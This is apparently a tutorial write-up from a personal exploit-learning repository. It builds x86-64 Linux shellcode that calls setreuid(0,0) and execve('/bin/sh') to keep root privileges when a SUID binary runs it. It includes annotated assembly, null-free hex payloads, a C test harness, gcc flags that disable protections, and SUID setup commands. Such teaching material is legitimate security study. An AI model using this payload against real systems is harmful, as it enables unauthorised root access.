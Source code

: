 # Creating a setreuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack, instead of in a section for global variables in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:

![shellrun1.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)

Now that we have normal working shellcode time to use setuid(0) and seteuid(0)

Looking up the man page of seteuid you will see the following:

```
Under libc4, libc5 and glibc 2.0 seteuid(euid) is equivalent to setreuid(-1, euid) and hence may change the saved set-user-ID. Under glibc 2.1 and later it is equivalent to setresuid(-1, euid, -1) and hence does not change the saved set-user-ID. Analogous remarks hold for setegid(), with the difference that the change in implementation from setregid(-1, egid) to setresgid(-1, egid, -1) occurred in glibc 2.2 or 2.3 (dependeing on the hardware architecture).
```

This means that we do not have a specific syscall to seteuid but a syscall to setreuid(ruid,euid)

The good part about this is that setreuid also allows us to set the user id at the same time. So we only need to do one syscall for setting everything instead of two.

So all we need to do is call setreuid(0,0) since we want to set our user to be root.

Again I used the previously mentioned [site](https://defuse.ca/online-x86-assembler.htm#disassembly) for assembling my code and the [syscall](https://filippo.io/linux-syscall-table/) lookup table to see what values I should set the registers to.

```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
```

Then I smacked both of my codes together:
```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it execve("/bin/sh",0,0)
```

Assembled char code looks like this:
```
\x48\x31\xC0\x48\x83\xC0\x71\x48\x31\xFF\x48\x31\xF6\x0F\x05\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```

Running the shellcode tester with the newly generated char code then gives us a root shell:

![shellrun2.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun2.png?raw=true)

Bear in mind that I did not set the group id as it's not needed for the root privileges. But the group id can be set in the same manner as setreuid was, just using setregid instead.

Hope you learnt as much as I did from this :)
